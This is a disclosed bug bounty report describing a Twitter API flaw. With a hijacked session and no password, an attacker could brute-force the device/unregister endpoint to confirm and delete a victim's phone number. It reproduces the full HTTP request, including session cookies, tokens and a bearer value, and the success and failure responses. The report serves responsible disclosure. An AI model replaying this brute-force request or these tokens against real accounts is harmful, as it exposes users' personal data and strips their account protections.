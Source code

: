 # PI leakage By Brute Forcing and Phone number deleting without using password

## Report Details
- **Report ID**: 1087525
- **URL**: https://hackerone.com/reports/1087525
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-26T13:57:49.038Z
- **Disclosed**: 2021-04-22T16:35:16.872Z

## Reporter
- **Username**: a13h1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** This additional security measure from twitter provides protection to the victim's account, considering that a victim's session may have been hijacked by a hacker, however, due to this additional layer of security Implemented by twitter the hacker would not be able to disclose the victim's Phone Number and cannot remove(delete the phone number), as they will be prompted to enter the victim's account password In order to make these changes, which will not be known to a hacker (In case of a session hijack)

This report is to bring to your attention a security vulnerability that will allow hackers that have hijacked a user's session to bypass the password screen (Without knowing the user's password)

##Description:
 For users that have had their twitter session hijacked, this security vulnerability would enable a hacker to disclose the Phone Number (Personal Info)or able to remove the victim Phone number 

So this issue is leads to PI leakage by bypassing the password authentication because in twitter we need to enter the password to get into the account setting and deleting the phone number



## Steps To Reproduce:

1.  Use the below request to regenerate the issue

POST /i/api/1.1/device/unregister.json HTTP/1.1
Host: twitter.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter.com/settings/phone
authorization: Bearer AAAAAAAAAAAAAAAAAAAAANRILgAAAAAAnNwIzUejRCOuH5E6I8xnZz4puTs%3D1Zv7ttfk8LF81IUq16cHjhLTvJu4FA33AGWWjCpTnA
x-twitter-auth-type: OAuth2Session
x-twitter-client-language: en
x-twitter-active-user: yes
content-type: application/x-www-form-urlencoded
x-csrf-token: ff2ffbac7022086cf6f9b8bd5bab1db0867608a86f29c36a07e5098e77c933a63d6b58040a5431c783d0405c6cd0bcc6db33c23fd40b2355717fd3461986c117083941cca395e2268be2fe1ff1d0d01f
Content-Length: 28
Origin: https://twitter.com
Connection: close
Cookie: _ga=GA1.2.1934906781.1600634518; kdt=RJzTVzAyG9tYDKN1JYYBTY6qxuvSoarrK4gl5Yjn; remember_checked_on=1; _gid=GA1.2.1680084220.1611590216; mbox=session#52f0077eb7804a2395f66b219d53df8c#1611676575; at_check=true; lang=en; cd_user_id=1773f4d2a7ea-0e8308a702e6d88-31634645-1fa400-1773f4d2a7f2; gt=1354060492269096960; personalization_id="v1_viWq+tRogA+gdH7F6rki9A=="; guest_id=v1%3A161166820124545510; ct0=ff2ffbac7022086cf6f9b8bd5bab1db0867608a86f29c36a07e5098e77c933a63d6b58040a5431c783d0405c6cd0bcc6db33c23fd40b2355717fd3461986c117083941cca395e2268be2fe1ff1d0d01f; ads_prefs="HBERAAA="; _twitter_sess=BAh7CiIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGxlcjo6Rmxhc2g6OkZsYXNo%250ASGFzaHsABjoKQHVzZWR7ADoPY3JlYXRlZF9hdGwrCC426T53AToJdXNlcmwr%250ACQEA1xjqWMkSOgxjc3JmX2lkIiUxODg2NDcwZWNkMWY4YWU5NTVjNWNiZDg3%250ANDRmMDc0NjoHaWQiJWNjMzgzNWU2NDQxNDkzYjFjZWY2YmMzODA3MGYwOGUy--96dc661c5411d47c03c4c09292e4a42610a0b24e; twid=u%3D1353710925463879681; auth_token=9b17ab39756e101001234f6b59e278775f3fdc15

phone_number=%2B919999999906


2.  We have victim session hijacked account so we replace some headers and cookie in above request 

3.  We didn't know the Phone number so we are place some random number in phone_number parameter

4. Then start brute forcing so their is no rate limit here 

5. See the POC for more clearification  F1172750

6. The request we use is generate from the hacker personal account we just change  authorization: Bearer , x-csrf-token , cookie by the victim session 

as you see in POC 

If the response is come in 404 the phone number is not true and it didn't get delete

HTTP/1.1 404 Not Found
cache-control: no-cache, no-store, must-revalidate, pre-check=0, post-check=0
connection: close
content-disposition: attachment; filename=json.json
Content-Length: 64
content-type: application/json; charset=utf-8
date: Tue, 26 Jan 2021 13:41:46 GMT
expires: Tue, 31 Mar 1981 05:00:00 GMT
last-modified: Tue, 26 Jan 2021 13:41:46 GMT
pragma: no-cache
server: tsa_o
status: 404 Not Found
strict-transport-security: max-age=631138519
x-client-event-enabled: true
x-connection-hash: a429bf26b4a46c4d3bc600f80ac11ffe
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-response-time: 124
x-transaction: 00849dce003bcaed
x-tsa-request-body-time: 1
x-twitter-response-tags: BouncerCompliant
x-xss-protection: 0

{"errors":[{"code":157,"message":"Verified device not found."}]}


If the response comes in 200 that means the phone number is true and the phone number is deleted from the account

HTTP/1.1 200 OK
cache-control: no-cache, no-store, must-revalidate, pre-check=0, post-check=0
connection: close
content-disposition: attachment; filename=json.json
content-length: 0
content-type: application/json;charset=utf-8
date: Tue, 26 Jan 2021 13:47:42 GMT
expires: Tue, 31 Mar 1981 05:00:00 GMT
last-modified: Tue, 26 Jan 2021 13:47:42 GMT
pragma: no-cache
server: tsa_o
status: 200 OK
strict-transport-security: max-age=631138519
x-access-level: read-write-directmessages
x-client-event-enabled: true
x-connection-hash: fbc3dbbec5096ecf1194cec8aecb4d71
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-response-time: 155
x-transaction: 00e5c7150079403a
x-tsa-request-body-time: 0
x-twitter-response-tags: BouncerCompliant
x-xss-protection: 0


And if the response came 200 the hacker see the payload phone number which is relative to the user Personal info which is disclose 

and for all these we didn't need any password authentication

## Impact

The impact is the hacker didn't need any password to delete the  phone number and get the phone number of victim by brute forcing 
So this issue is leads to PI leakage by bypassing the password authentication

Thanks

## Attachments
- twitter.mp4
